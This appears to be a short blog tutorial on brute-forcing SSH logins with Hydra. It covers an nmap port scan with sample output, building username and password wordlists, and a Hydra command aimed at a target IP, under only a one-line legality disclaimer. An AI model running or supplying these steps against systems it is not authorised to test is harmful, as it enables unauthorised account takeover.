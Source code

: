 ```yaml
---
layout: post
tittle: How to Hack ssh Login Remotely
categories: Hacking
---
```


- My OS Info: Ubuntu18.04 LTS Server

## Hacking Software
[Hydra](https://github.com/vanhauser-thc/thc-hydra)

Hydra is a open source brute and forcing  password hacking tool.

## Step 1 Scan the Listening Ports
Use `nmap` command to scan the ports that your machine to be hacked is listening to.

`nmap YOUR_HACKING_Machine_IP_ADDRESS`

which will show like this

```
Host is up (0.0028s latency).
Not shown: 989 closed ports
PORT      STATE    SERVICE
22/tcp    filtered ssh
80/tcp    open     http
139/tcp   open     netbios-ssn
443/tcp   open     https
445/tcp   open     microsoft-ds
548/tcp   open     afp
3306/tcp  open     mysql
3689/tcp  open     rendezvous
8181/tcp  open     intermapper
9000/tcp  open     cslistener
49154/tcp open     unknown

```

## Step 2 Install Hacking Software
`sudo apt install hydra`

## Step 3 Prepare user file and password file
- user.txt -> A dictionary which contains all the username to try
- passwd.txt -> A dictionary which contains all the password to try

You may want to download password dictionary from following site:

[https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm](https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)

Or custom a wordlist on your own:

[https://null-byte.wonderhowto.com/how-to/create-custom-wordlists-for-password-cracking-using-mentalist-0183992/](https://null-byte.wonderhowto.com/how-to/create-custom-wordlists-for-password-cracking-using-mentalist-0183992/)

If the dictionary file is too large, you may split it using command `split` to divide the large file to small ones.

## Step 4 Run Hydra to Hack
`hdyra -L user.txt -P passwd.txt ssh://YOUR_HACKING_Machine_IP_ADDRESS -t 4`

`-t 4` means hydra starts 4 thread to hack the password.

## Attention:
- Please do not use in military or secret service organizations, or for illegal purposes;

- If you don't know useful information about the machine to be hacked, it may takes years to hack out the password, which depends on your computing power and dictionary size. It is practical to use the information you know about the machine to be hacked to generate custom wordlist,  you may using tool like [cupp](https://github.com/Mebus/cupp).

## References
[https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/](https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/)

[https://linoxide.com/linux-how-to/split-large-text-file-smaller-files-linux/](https://linoxide.com/linux-how-to/split-large-text-file-smaller-files-linux/)
